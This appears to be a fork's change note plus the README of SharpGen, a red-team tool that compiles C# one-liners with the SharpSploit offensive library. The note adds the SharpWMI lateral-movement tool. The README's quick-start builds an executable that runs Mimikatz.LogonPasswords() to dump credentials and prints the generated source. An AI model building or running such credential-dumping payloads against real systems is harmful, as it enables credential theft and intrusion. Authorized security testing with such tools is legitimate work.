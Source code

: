 # My change

Add support for SharpWMI and SharpTest.

SharpWMI is from https://github.com/GhostPack/SharpWMI.

SharpTest is the template I wrote.

### change records

- Add file:SharpGen/Source/SharpWMI/Program.cs
- Add file:SharpGen/Source/SharpTest/Program.cs
- Add file:SharpGen/example.txt
- Modify file:SharpGen/SharpGen.csproj

### build&test

```
dotnet build --configuration Release
dotnet bin/Release/netcoreapp2.1/SharpGen.dll -f example.exe --source-file example.txt
```


---
---

# SharpGen

[SharpGen](https://github.com/cobbr/SharpGen) is a .NET Core console application that utilizes the [Rosyln](https://github.com/dotnet/roslyn) C# compiler to quickly cross-compile .NET Framework console applications or libraries.

### Intro

You'll find details and motivations for the SharpGen project in this [introductory blog post](https://cobbr.io/SharpGen.html).

### Quick Start

The most basic usage of SharpGen would be to provide SharpGen an output filename and a C# one-liner that you’d like to execute. SharpGen will generate a .NET Framework console application that will execute the one-liner. For example:

```
cobbr@mac:~ > git clone https://github.com/cobbr/SharpGen
cobbr@mac:~ > cd SharpGen
cobbr@mac:~/SharpGen > dotnet build
cobbr@mac:~/SharpGen > dotnet bin/Release/netcoreapp2.1/SharpGen.dll -f example.exe "Console.WriteLine(Mimikatz.LogonPasswords());"
[+] Compiling source:
using System;
using System.IO;
using System.Text;
using System.Linq;
using System.Security.Principal;
using System.Collections.Generic;
using SharpSploit.Credentials;
using SharpSploit.Enumeration;
using SharpSploit.Execution;
using SharpSploit.LateralMovement;
using SharpSploit.Generic;
using SharpSploit.Misc;

public static class jZTyloQN2SU4
{
    static void Main()
    {
        Console.WriteLine(Mimikatz.LogonPasswords());
	    return;
    }
}
[+] Compiling optimized source:
using System;
using SharpSploit.Credentials;

public static class jZTyloQN2SU4
{
    static void Main()
    {
        Console.WriteLine(Mimikatz.LogonPasswords());
	    return;
    }
}
[*] Compiled assembly written to: /Users/cobbr/SharpGen/Output/example.exe
```
